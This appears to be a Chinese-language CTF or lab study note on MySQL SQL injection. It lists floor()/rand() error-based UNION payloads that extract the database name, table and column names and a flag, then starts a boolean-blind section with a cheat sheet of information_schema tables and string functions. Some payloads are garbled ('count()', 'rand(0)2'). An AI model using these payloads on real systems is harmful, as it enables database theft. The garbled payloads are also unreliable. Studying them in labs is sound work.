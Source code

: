 ![image-20220609094729901](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094729901.png)

#### 方法三：floor

**利用floor来group by主键重复报错。**

1 union select count(), concat((select database()), floor(rand(0)2)) x from news group by x

![image-20220609094922299](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094922299.png)

1 union select count(), concat((select table_name from information_schema.tables where table_schema='sqli' limit 1,1), floor(rand(0)2)) x from news group by x

![image-20220609095259368](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609095259368.png)

1 union select count(), concat((select column_name from information_schema.columns where table_name='flag' limit 0,1), floor(rand(0)2)) x from news group by x

![image-20220609095554150](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609095554150.png)

1 union select count(), concat((select flag from flag limit 0,1), floor(rand(0)2)) x from news group by x

![image-20220609095627111](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609095627111.png)



### **布尔盲注

需要了解mysql的知识点：

union select 联合查询，联合注入常用
database() 回显当前连接的数据库
version() 查看当前sql的版本如：mysql 1.2.3， mariadb-4.5.6
group_concat() 把产生的同一分组中的值用,连接，形成一个字符串
information_schema 存了很多mysql信息的数据库
information_schema.schemata information_schema库的一个表,名为schemata
schema_name schemata表中存储mysql所有数据库名字的字段
information_schema.tables 存了mysql所有的表
table_schema tables表中存每个表对应的数据库名的字段
table_name 表的名字和table_schema一一对应
information_schema.columns columns表存了所有的列的信息4
column_name 当你知道一个表的名字时，可通过次字段获得表中的所有字段名(列名)
table_name 表的名字和column_name一一对应
select updatexml(1,concat(0x7e,database(),0x7e),1); 这里注意，只在databse()处改你想要的内容即可报错回显
right(str, num) 字符串从右开始截取num个字符
left(str,num) 同理:字符串从左开始截取num个字符
substr(str,N,M) 字符串，从第N个字符开始，截取M个字符

和一些基本sql语法
和一些基本注释：
#，–空格，/* */

------
